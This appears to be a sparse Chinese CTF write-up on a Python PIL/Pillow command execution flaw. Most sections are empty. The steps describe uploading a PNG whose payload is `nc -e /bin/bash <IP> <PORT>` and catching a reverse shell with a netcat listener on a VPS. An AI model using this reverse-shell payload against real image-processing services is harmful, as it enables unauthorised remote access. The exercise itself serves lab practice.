

# pillow
## **【原理】**

Python PIL Module Command Execution Vulnerability

## **【目的】**

## **【环境】**

## **【工具】**

## **【步骤】**

具体漏洞细节参照以下文章：

https://paper.seebug.org/405/

https://xianzhi.aliyun.com/forum/read/2163.html

上传带payload的png，payload为`nc -e /bin/bash <IP> <PORT>`，然后在vps上`nc -l -p <PORT>`得到reverse shell。

flag在web目录下，ls可以看到。

## **【总结】**

